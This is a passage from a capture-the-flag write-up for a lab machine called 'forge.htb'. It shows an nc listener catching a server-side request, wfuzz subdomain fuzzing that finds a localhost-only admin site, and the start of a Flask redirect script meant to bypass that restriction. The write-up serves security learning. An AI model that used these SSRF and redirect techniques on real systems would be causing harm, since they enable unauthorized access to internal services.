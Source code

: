 If we were to start a `nc` listener port and redirect the request to our machine, we would see this:

```
$ nc -lvnp 80  
listening on [any] 80 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.204.233] 56488
GET /test HTTP/1.1
Host: 10.10.14.13
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

This was using a Python based website, that is sending requests. The website had nothing else to offer, and I wasn't able to download or execute any webshells. So I did some `wfuzz` subdomain fuzzing and `gobuster` directory scans.

`wfuzz` picked up on an administrator site:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.forge.htb' --hw=26 -u http://forge.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://forge.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000036:   200        1 L      4 W        27 Ch       "admin"
```

Trying to visit it doesn't work though.

```
$ curl http://admin.forge.htb/
Only localhost is allowed
```

### Redirect Bypass --> SSH Key

All my attempts to access the admin panel via modifying HTTP headers didn't work. So we have to try something else.&#x20;

Since this server was in Python, and the administrator panel can only be accessed by `localhost`, I thought of creating a 'redirector' that would accept requests on the website and redirect us to the admin panel. Here's a good script for that:

{% embed url="https://stackoverflow.com/questions/14343812/redirecting-to-url-in-flask" %}

```python
import os
from flask import Flask,redirect

app = Flask(__name__)

@app.route('/')
def hello():
    return redirect("http://www.example.com", code=302)

if __name__ == '__main__':
    # Bind to PORT if defined, otherwise default to 5000.
    port = int(os.environ.get('PORT', 5000))
```